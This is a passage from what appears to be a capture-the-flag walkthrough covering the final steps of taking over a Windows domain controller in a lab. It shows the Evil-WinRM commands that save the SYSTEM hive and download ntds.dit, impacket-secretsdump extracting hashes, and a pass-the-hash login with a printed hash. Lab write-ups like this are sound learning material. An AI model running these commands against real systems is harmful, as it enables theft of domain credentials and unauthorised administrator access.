 ![capture-16](capture-16.PNG)

Next, we need to save the system file in order to complete everything.
```
*Evil-WinRM* PS C:\Temp> reg save hklm\system system
The operation completed successfully.
```
With both the ntds and system file saved, we have to download them to our local machine.
```
*Evil-WinRM* PS C:\Temp> download ntds.dit
                                        
Info: Downloading C:\Temp\ntds.dit to ntds.dit
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Temp> download system
                                        
Info: Downloading C:\Temp\system to system
```

## Root
With both ntds.dit and system saved to your Linux machine, use impackets secretsdump to obtain the administrator hash.
```
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```
![capture-20](capture-20.PNG)
Use evil-winrm to obtain your root flag.
```
evil-winrm -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee'  -i 10.129.147.254
```
![capture-21](capture-21.PNG)
